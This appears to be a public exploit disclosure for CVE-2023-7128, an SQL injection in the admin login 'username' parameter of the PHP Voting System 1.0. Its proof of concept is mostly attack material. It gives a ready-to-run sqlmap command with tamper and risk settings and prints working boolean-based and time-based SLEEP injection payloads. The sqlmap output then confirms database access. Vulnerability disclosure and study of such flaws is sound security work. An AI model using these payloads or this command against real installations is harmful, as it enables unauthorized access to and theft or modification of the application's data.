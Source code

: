 # CVE-2023-7128_Voting_System-SQL_Injection-1
+ **Exploit Title:** CVE-2023-7128_Voting_System-SQL_Injection-1
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/voting-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/VOTING_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2023-7128

## References: 
+ **CVE-2023-7128:** https://vuldb.com/?id.249131
+ https://www.cve.org/CVERecord?id=CVE-2023-7128
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7128
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7128

## Description:
Voting System 1.0 allows SQL Injection via parameter 'username' in "/votesystem/admin/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the admin login page: "http://localhost/votesystem/admin/"
+ Fill the username and password then click 'Sign In' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database. 
```
sqlmap -r r.txt -p username --risk 3 --level 5 --threads 1 --random-agent tamper=between, randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=test' OR NOT 6416=6416-- SOwv&password=test&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 3547 FROM (SELECT(SLEEP(5)))OFWl)-- funY&password=test&login=
---
[18:54:43] [INFO] testing MySQL
[18:54:44] [INFO] confirming MySQL
[18:54:44] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[18:54:44] [INFO] fetching current database
[18:54:44] [INFO] resumed: votesystem
current database: 'votesystem'
```

+ current database: `votesystem`
![1](https://github.com/h4md153v63n/CVEs/assets/5091265/09972f6e-8875-4c94-b64d-3cebf4ff1ab8)
